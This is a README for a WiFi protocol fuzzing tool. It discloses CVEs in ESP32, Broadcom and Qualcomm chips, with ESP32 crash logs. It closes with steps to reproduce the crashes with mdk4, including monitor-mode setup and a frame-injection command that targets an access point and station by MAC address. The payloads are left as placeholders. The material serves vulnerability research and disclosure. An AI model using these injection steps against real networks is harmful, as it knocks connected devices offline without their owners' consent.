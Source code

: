 # Owfuzz
[Owfuzz](https://github.com/alipay/WiFi-Protocol-Fuzzing-Tool): a WiFi protocol fuzzing tool using openwifi


# Discovered vulnerabilities


- [CVE-2021-34173](#CVE-2021-34173)
- [CVE-2021-34174](#CVE-2021-34174)
- CVE-2021-1903(Undisclosed)
- CVE-2021-33028(Undisclosed)
- CVE-2021-33029(Undisclosed)


## CVE-2021-34173

An attacker can cause a Wi-Fi Denial of Service(DoS) and kernel panic in v4.2 and earlier versions of Espressif's esp32 via a malformated beacon CSA frame. Esp32 device requires a reboot to recover.

- Crash logs
```
I (3494) wifi station: got ip:192.168.50.242
I (3504) wifi station: connected to ap SSID:AS password:1234567890/
Guru Meditation Error: Core  0 panic'ed (LoadProhibited). Exception was unhandled.

Core  0 register dump:
PC      : 0x400f2319  PS      : 0x00060b30  A0      : 0x8008e499  A1      : 0x3ffc0f40
0x400f2319: ieee80211_recv_bar at ??:?

A2      : 0x3ffb5428  A3      : 0x3ffb92cc  A4      : 0x00000088  A5      : 0x00000018
A6      : 0x00000001  A7      : 0x00000000  A8      : 0x3ffb5448  A9      : 0x3ffb9344
A10     : 0x3ffb5428  A11     : 0x03000000  A12     : 0x00000011  A13     : 0x3ffbf010
A14     : 0x40084294  A15     : 0x80000000  SAR     : 0x00000020  EXCCAUSE: 0x0000001c
0x40084294: task_ms_to_tick_wrapper at /Users/sc3d4r/Environment/esp/esp-idf/components/esp_wifi/esp32/esp_adapter.c:401

EXCVADDR: 0x03000000  LBEG    : 0x4000c2e0  LEND    : 0x4000c2f6  LCOUNT  : 0xffffffff

Backtrace:0x400f2316:0x3ffc0f40 0x4008e496:0x3ffc0f60 0x4008e525:0x3ffc0fb0 0x400923b1:0x3ffc0fd0 0x400900f8:0x3ffc0ff0 0x40089f75:0x3ffc1020
0x400f2316: ieee80211_recv_bar at ??:?

0x4008e496: sta_input at ??:?

0x4008e525: sta_rx_cb at ??:?

0x400923b1: ppRxPkt at ??:?

0x400900f8: ppTask at ??:?

0x40089f75: vPortTaskWrapper at /Users/sc3d4r/Environment/esp/esp-idf/components/freertos/port/xtensa/port.c:168



ELF file SHA256: 20d93a4b64d36560

Rebooting...
Re-enable cpu cache.
Guru Meditation Error: Core  0 panic'ed (IllegalInstruction). Exception was unhandled.
Memory dump at 0x400e9e5c: 2e0856e1 09ad6da9 9802d222
0x400e9e5c: rtc_clk_cpu_freq_to_xtal at /Users/sc3d4r/Environment/esp/esp-idf/components/esp_hw_support/port/esp32/rtc_clk.c:439

Core  0 register dump:
PC      : 0x400e9e62  PS      : 0x00060833  A0      : 0x800876a0  A1      : 0x3ffc0d40
0x400e9e62: rtc_clk_cpu_freq_set_xtal at /Users/sc3d4r/Environment/esp/esp-idf/components/esp_hw_support/port/esp32/rtc_clk.c:510

A2      : 0x00000000  A3      : 0x3ff000c4  A4      : 0x00000000  A5      : 0x00000001
A6      : 0x3ffb92cc  A7  
0x400817a6: _xt_user_exc at /Users/sc3d4r/Environment/esp/esp-idf/components/freertos/port/xtensa/xtensa_vectors.S:697

0x400f2316: ieee80211_recv_bar at ??:?

0x4008e496: sta_input at ??:?

0x4008e525: sta_rx_cb at ??:?

0x400923b1: ppRxPkt at ??:?

0x400900f8: ppTask at ??:?

0x40089f75: vPortTaskWrapper at /Users/sc3d4r/Environment/esp/esp-idf/components/freertos/port/xtensa/port.c:168



## CVE-2021-34174
This vulnerability is discovered in broadcom's BCM4352 and BCM43684 chips. Any wireless router using BCM4352 and BCM43684 will be affected, such as ASUS AX6100. An attacker may cause a Denial of Service (DoS) to any device connected to BCM4352 or BCM43684 routers by an association or reassociation frame.



# Qualcomm Vulnerbilities
- Snapdragon series
- Killer Wireless AC 1535
- QCA9005

Please see [[pocs](pocs/qualcomm)] dir.



# Reproduce
```
(1) Linux (ubuntu/kali) OS

    apt-get install pkg-config libnl-3-dev libnl-genl-3-dev libpcap-dev 
    git clone https://github.com/aircrack-ng/mdk4
    cd mdk4
    make

    cd src

    #Write payload into ./pocs/poc_test
    echo "payload hex str" > ./pocs/poc_test


(2) Reproducing this issue
    a. Connecting device to AP
    b. To see what channel the AP is working on
    c. To see the MAC address of the AP and the device
    d. Plugging a WiFi USB adapter(support monitor mode and packet injection, 2.4G/5G) into the PC(linux) and to see the usb wifi interface name.

        sudo ifconfig iface_name down
        sudo iwconfig iface_name mode monitor
        sudo ifconfig iface_name up

    e. Reproduce using mdk4: sudo mdk4 [iface_name] x -c [channel_numer] -v poc_test -s 1 -B [ap-mac] -S [ap-mac] -T [sta-mac]
```